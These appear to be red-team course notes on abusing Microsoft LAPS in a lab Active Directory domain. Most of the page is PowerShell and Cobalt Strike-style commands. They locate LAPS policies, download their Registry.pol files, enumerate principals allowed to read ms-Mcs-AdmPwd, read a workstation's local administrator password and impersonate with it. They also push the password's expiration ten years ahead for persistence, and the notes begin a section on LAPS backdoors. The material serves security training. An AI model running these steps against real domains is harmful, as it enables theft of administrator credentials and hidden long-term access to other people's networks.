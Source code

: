 # Local Administrator Password Solution Notes

Tools:
[GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser)

## Search
can check locally for files
```
ls C:\Program Files\LAPS\CSE
```

GPO search
```
powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl
```

or computer objects with the ms-Mcs-AdmPwdExpirationTime property is not null
```
powershell Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName
```

we can download the policy of the GPO object
```
ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{<GPO>}\Machine
download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{<GPO>}\Machine\Registry.pol
```

offline on attacker machine
```
Parse-PolFile .\Desktop\Registry.pol
```


## Reading ms-Mcs-AdmPwd
Tools:
[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

we can discover principals who can read this password
```
powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier
or:
powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1
powershell Find-LAPSDelegatedGroups
```

To get a computer's password, simply read the attribute.
```
powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd
abuse:
make_token .\LapsAdmin <password>
```

## Password Expiration Protection

If the policy setting is left "not configured" in the GPO, then password expiration protection is disabled by default.
Since we were able to compromise WKSTN-1 using its LAPS password, we can set its expiration long into the future as a form of persistence.

```
powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
```
where 133101494718702551 is Thursday, 13 October 2022 15:44:31 GMT
use this to create them: (https://www.epochconverter.com/ldap)

to push out 10 years 
```
powershell Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
```

## LAPS Backdoors

This module will demonstrate this idea using the LAPS PowerShell cmdlet Get-AdmPwdPassword.  If installed on a machine, the LAPS PowerShell modules can be found under C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS

